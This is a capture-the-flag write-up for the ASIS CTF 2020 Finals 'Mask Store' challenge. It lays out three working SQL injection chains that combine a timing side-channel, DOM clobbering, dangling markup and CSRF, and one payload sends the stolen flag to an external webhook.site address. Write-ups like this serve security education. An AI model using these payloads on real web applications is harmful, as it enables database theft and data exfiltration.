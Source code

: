 ## ASIS CTF 2020 - Finals - Mask Store - 12 Solves

We (**Super Guesser**) got 3 unintended solutions

**1.** Using heavy queries in SQL injection to sleep for a while then with window.open and performance.now() leak the flag character by character

**2.** With SQL injection and dom clobbering+dangling markup redirect to /profile if the query was true then our profile will load an image to our webhook

**3.** Dangling markup to spoof lastElement of the document then SQLi+ CSRF to leak the flag through /report

---

**1.** We can't use `<iframe>` because the cookie is SameSite but headless chrome allows window.open by default
```
/panel?orderid='||(select if(substr(lpad(bin(ord(s
ubstr((select flag from secrets),{Flag Index},1)))
,7,0),{Decimal Character},1)=1,1,(select count(*) 
from orders a,orders b,orders c,orders d,orders e,
orders f,orders g,orders h,orders i,orders j,order
s k,orders l,orders m,orders n,orders o,orders p,o
rders q,orders r,orders s,orders t,orders u,orders
 v,orders w,orders x,orders y,orders z,orders aa,o
rders ab,orders ac,orders ad)))#
```

window.open to open the page then if the character is correct we will get **<60** millisecond time otherwise move to another character

**2.** In profile page will change our profile picture to a webhook if it got any hit then it write to another file 
```
/panel?orderid='+union+select+1,(CASE+WHEN+((selec
t+count(*)+from+secrets+where+flag+like+'ASIS{%')>
0)+THEN+0x3203c6f7264657220757569643d2231333337222
07473746172743d22313630373638333938362220646573637
2697074696f6e3d22414141414141414141414141412220737
4617475733d223122203e3c2f6f726465723e3c2f6469763e3
c666f726d20616374696f6e3d222f70726f66696c652f39666
564313738362d663238372d343837662d623632332d3237643
8393762666438643222206d6574686f643d22474554223e3c6
96e70757420747970653d2268696464656e22206e616d653d2
26f726465726964223e3c696e70757420747970653d2268696
464656e22206e616d653d22737461747573222076616c75653
d226c617465223e3c2f666f726d3e3c212d2d+ELSE+0x20+EN
D)#
```

decoded hex:
```
<order uuid="1337" tstart="1607683986" description
="AAAAAAAAAAAAA" status="1" ></order></div><form a
ction="/profile/9fed1786-f287-487f-b623-27d897bfd8
d2" method="GET"><input type="hidden" name="orderi
d"><input type="hidden" name="status" value="late"
></form><!--
```

It will automatically submit the form and redirect to our /profile if the character guessing is right after every window.open wait 2 seconds and check our webhook to see if we got a hit

**3.** Using `</div><form method=post action="/report"><form><input name=url value=><input value="` we can can override `document.body.lastElementChild.children[parseInt(1)];` and `form.children[0].value` then changing the form path to `/report` with the SQLi write the flag to end of our supplied URL that the admin will visit
```
/panel?orderid=' union select 1,concat(0x203c6f726
4657220757569643d2226237836383b747470733a2f2f77656
2686f6f6b2e736974652f32623862616466652d666432612d3
46265342d383630322d6466316234306636333166303f70726
f6669743d31,flag,0x22207473746172743d2231363037363
83339383622206465736372697074696f6e3d2241414141414
14141414141414122207374617475733d223122203e3c2f6f7
26465723e3c2f6469763e3c666f726d206d6574686f643d706
f737420616374696f6e3d222f7265706f7274223e3c666f726
d3e3c696e707574206e616d653d75726c2076616c75653d3e3
c696e707574206e616d653d666c61672076616c75653d22) f
rom secrets#
```

decoded:
```
<order uuid="&#x68;ttps://webhook.site/2b8badfe-fd
2a-4be4-8602-df1b40f631f0?profit={The Flag we got 
with SQLi}

" tstart="1607683986" description="AAA
AAAAAAAAAA" status="1" ></order></div><form method
=post action="/report"><form><input name=url value
=><input name=flag value="
```
*Thanks 💜*
